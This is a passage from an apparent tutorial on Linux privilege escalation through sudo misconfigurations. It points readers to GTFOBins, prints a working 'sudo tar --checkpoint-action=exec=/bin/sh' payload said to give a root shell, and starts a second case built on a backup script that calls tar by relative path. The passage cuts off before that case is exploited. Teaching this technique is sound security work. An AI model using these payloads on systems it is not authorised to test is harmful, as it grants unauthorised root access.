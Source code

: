 There is one such binary, **but how can we use it?**

There is a website called [GTFOBins](https://gtfobins.github.io/) - it has lots of payloads, ready to utilize. 

It doesn't matter if it's `sudo`, `SUID bit` set, or linux capabilities - it has it all

After searching for `tar` and choosing the `SUDO` option, we find this payload
```sh
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Executing payload gives us root

Now, time to jump to the next case

### Case 2 - Scripts

Running with `sudo` is not only limited to compiled binaries. We can run certain scripts as well
```sh
$ sudo -l

Matching Defaults entries for user on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User user may run the following commands on debian:
    (root) /home/user/backup.sh
```

Our script will create backup from `/home/user` and place it in `/var/backups`
```sh
#!/bin/bash

source_dir="/home/user"
backup_dir="/var/backups"

if [ ! -d "$source_dir" ]; then
    exit 1
fi

mkdir -p "$backup_dir"

timestamp=$(date +"%Y%m%d_%H%M%S")
backup_filename="user_home_backup_$timestamp.tar.gz"

tar -czf "$backup_dir/$backup_filename" -C "$(dirname "$source_dir")" "$(basename "$source_dir")"

if [ $? -ne 0 ]; then
    exit 1
fi
```

As you can see, we use `tar` here. But how is it exploitable? 

As it uses **relative path** - what does it mean?
